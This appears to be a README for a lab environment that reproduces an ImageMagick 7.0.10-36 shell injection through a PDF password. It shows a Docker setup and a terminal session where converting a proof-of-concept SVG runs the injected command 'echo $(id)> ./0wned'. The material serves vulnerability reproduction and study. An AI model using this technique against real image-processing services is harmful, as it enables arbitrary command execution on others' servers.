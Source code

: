 # ImageMagick Shell Injection via PDF Password

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References: 

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker-compose.exe run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:

![](1.png)